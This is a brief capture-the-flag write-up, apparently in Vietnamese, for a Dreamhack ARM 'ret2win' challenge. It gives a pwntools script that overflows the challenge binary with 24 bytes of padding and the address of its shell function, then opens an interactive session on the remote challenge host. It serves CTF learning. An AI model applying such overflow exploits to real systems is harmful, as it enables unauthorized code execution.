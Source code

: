 


21 . arm-training v1
---------

1 bài ret2win ARM

![image](https://hackmd.io/_uploads/SyixHIuQJx.png)

script 

```

#!/usr/bin/python3
from pwn import *

context.binary =  exe = ELF('./arm_training-v1')
p = remote('host3.dreamhack.games', 10591)
#p = process()
p.send(b'a'*24 + p32(exe.sym.shell))
p.interactive()
```
